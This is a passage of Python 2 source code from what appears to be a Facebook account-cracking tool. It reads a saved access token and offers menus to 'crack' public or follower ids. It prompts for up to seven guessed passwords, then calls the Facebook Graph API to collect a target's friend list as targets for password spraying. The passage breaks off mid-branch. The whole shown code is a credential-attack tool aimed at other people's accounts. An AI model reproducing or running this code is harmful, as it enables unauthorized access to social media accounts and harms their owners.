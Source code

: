 		token = open("access_token.txt","r").read()
	except IOError:
		print("")
		print("\tToken not found")
		time.sleep(1)
		login_choice()
	os.system("clear")
	print(logo)
	print("")
	print("\t    \033[1;32mCHOICE PASS CRACK\033[0;97m")
	print("")
	print(47*"\x1b[1;93m-")
	print("\x1b[1;93m[1]\x1b[1;92m Crack Public id")
	print("\x1b[1;93m[2]\x1b[1;92m Crack Followers id")
	print("\x1b[1;93m[0]\x1b[1;93m Back")
	print(47*"-")
	print("")
	choice_select()
def choice_select():
	select = raw_input("\033[1;33mChoose option: \033[0;92m")
	id=[]
	oks=[]
	cps=[]
	if select =="1":
		os.system("clear")
		print(logo)
		print("")
		print("\t    \033[1;32mCHOICE PASS PUBLIC CRACKING\033[0;97m")
		print("")
		pass1 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass2 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass3 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass4 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass5 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass6 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass7 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		idt = raw_input("\x1b[1;92m Input id:\x1b[1;93m ")
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			os.system('clear')
			print(logo)
			print(" Cloning from :\x1b[1;92m "+q["name"])
		except KeyError:
			print("\t    \033[1;31mLogged in id has checkpoint\033[0;97m")
			print("")
			raw_input(" Press enter to back")
			choice()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i["id"]
			na = i["name"]
			nm = na.rsplit(" ")[0]
			id.append(uid+"|"+nm)
	elif select =="2":
		os.system("clear")
		print(logo)
		print("")
		print("\t    \033[1;32mCHOICE PASS FOLLOWERS CRACKING \033[0;97m")
		print("")
		pass1 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass2 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")
		pass3 = raw_input("\x1b[1;93m Password:\x1b[1;92m ")